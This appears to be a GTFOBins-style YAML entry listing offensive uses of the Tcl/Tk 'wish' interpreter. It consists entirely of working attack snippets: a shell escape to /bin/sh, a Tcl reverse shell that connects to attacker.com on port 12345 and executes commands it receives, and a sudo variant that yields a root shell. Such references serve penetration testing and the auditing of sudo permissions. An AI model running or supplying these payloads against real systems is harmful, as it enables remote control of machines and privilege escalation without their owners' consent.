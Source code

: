 ```yaml
---
functions:
  execute-interactive:
    - code: |
        wish
        exec /bin/sh <@stdin >@stdout 2>@stderr
  reverse-shell-non-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        echo 'set s [socket $::env(RHOST) $::env(RPORT)];while 1 { puts -nonewline $s "> ";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | wish
  sudo-enabled:
    - code: |
        sudo wish
        exec /bin/sh <@stdin >@stdout 2>@stderr
---
```

